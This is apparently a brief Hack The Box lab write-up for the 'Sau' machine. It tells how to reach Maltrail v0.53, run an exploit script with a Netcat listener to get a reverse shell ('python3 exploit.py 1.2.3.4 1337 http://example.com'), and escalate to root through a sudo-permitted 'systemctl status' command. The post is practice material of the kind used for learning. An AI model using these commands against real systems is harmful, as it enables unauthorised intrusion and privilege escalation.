 ```yaml
---
layout: post
title:  "Sau"
date:   2025-03-26 18:30:00 -0400
categories: HTB-machine linux easy
tags: HTB CTF writeup 
image:
    path: assets/img/htb/sau/banner.png
---
```


# Writeup
Let scan it first, we can see there are some open ports here.
![](assets/img/htb/sau/scan.png)

Access to the website, go to my basket link. Modify `settings`
![](assets/img/htb/sau/web.png)

Do some research about `Maltrail (v0.53)`, we have payload file.
![](assets/img/htb/sau/search.png)

Using `Netcat` and `python3 exploit.py 1.2.3.4 1337 http://example.com`, we can now get a reverse shell.
![](assets/img/htb/sau/flag.png)

`sudo -l` to check the list of commands that the current user can execute with elevated privileges using sudo.
![](assets/img/htb/sau/sudo.png)

`(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service` We can do this command to escalate privilege by `sudo /usr/bin/systemctl status trail.service`

![](assets/img/htb/sau/root.png)
